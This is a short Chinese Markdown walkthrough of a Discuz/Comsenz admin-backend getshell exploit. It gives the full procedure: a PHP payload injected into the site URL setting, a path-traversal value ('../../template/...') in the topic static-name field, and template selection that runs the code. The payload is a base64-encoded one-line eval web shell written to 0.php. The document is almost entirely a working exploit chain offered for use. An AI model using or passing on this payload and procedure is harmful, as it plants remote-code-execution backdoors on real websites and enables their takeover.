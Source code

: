 
##### 1、全局 --> 站点信息 --> 网站URL

```
修改网站 URL -->  http://www.comsenz.com/#<?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2FdKTsgPz4='));?>
```

##### 2、工具 --> 更新缓存

##### 3、门户 --> HTML管理 

```
静态文件扩展名: htm
专题HTML存放目录: data/cache
```

![](images/2.jpg)

##### 4、门户 --> 专题管理 --> 创建专题

静态化名称[此处未做任何限制]: `../../template/default/portal/portal_topic_test`
附加内容: 站点尾部信息

![](images/3.jpg)

##### 5、门户 --> 专题管理

开启并生成刚添加的专题 

##### 6、门户 --> 专题管理 --> 创建专题

模板名 选择刚生成的 `./template/default/portal/portal_topic_test.htm`

![](images/4_1.jpg)
![](images/4_2.jpg)

就执行了php代码 `<?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2FdKTsgPz4='));?>`

不仅仅是可以生成到专题目录，可以生成到任何可以包含的下面！

![](12.jpg)